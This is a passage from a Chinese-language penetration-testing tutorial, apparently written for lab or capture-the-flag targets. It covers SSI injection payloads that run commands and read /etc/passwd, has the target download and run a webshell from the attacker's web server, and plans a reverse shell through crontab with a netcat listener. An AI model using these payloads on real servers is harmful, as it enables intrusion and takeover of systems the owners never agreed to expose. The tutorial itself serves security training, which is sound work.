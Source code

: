 ```shell
# 可以使用 nc 来探测该端口的 banner 信息
nc IP port
```

### 3.7 针对 ssi

* ssi(server side inject) 的出现是为了赋予 html 静态页面动态的效果，通过 ssi 来执行系统命令，并返回对应的结果。
* 如果在网站目录中发现了 `.stm .shtm .shtml`，并且网站对于 SSI 的输入没有做到严格过滤，很有可能被 ssi 注入攻击。

```shell
# 1. 通过扫面工具查看 网页服务 有没有相关 .stm .shtm .shtml
# 2. 访问相关的提交页面
# 3. 在提交框，输入以下命令,如果有返回相关输出说明成功了。（有时候需要 EXEC）
<!--#exec cmd="ls" -->
<!--#exec cmd="cat /etc/passwd" -->
# 4. 上传webshell
# 4.1 在 ssi 里上传 webshell 需要通过 wget ，这就需要攻击开启 apache 服务。才可以被靶机下载shell
# 开启攻击机的 apache 服务，以方便靶机从攻击机下载 shell.py
mv shell.py /var/www/html/
service apache2 start
service apache2 status # 查看服务有没有启动（Active:信息一栏）
# 4.2 在提交框继续提交命令
<!--#exec cmd="wget http://ip/shell.py" -->
<!--#exec cmd="chmod 777 shell.py" -->
<!--#exec cmd="python shell.py" -->
# <!--#exec cmd="wget http://ip/shell.txt|rename shell.txt shell.php" --> # 此方式就是通过页面访问执行shell
# 5. 查看攻击机终端
```

## 四、提权

* 思路：
  
  1. 代码溢出。

1. 反弹 shell

    * 通过查看定时任务

    ```shell
    # 1. 查看 /etc/crontab 文件。该文件是系统定期执行的任务。编辑需要 root 权限。
    cat /etc/crontab
    # 2. 如果在 /etc/cronrab 下有某个用户的定时计划，
    #  但是具体目录下没有这个定时执行的文件，可以自行创建反弹 shell（文件属于不同用户都行）
    #  如果有定时执行的文件，可以切换到对应目录，查看当前用户是否具有读写权限。
    # 3. 攻击机使用 netcat 命令监听
    nc -lpv 未占用的端口 # l:监听 p:端口 v:可视化
    netstat -pantu # 查看占用端口
    ```
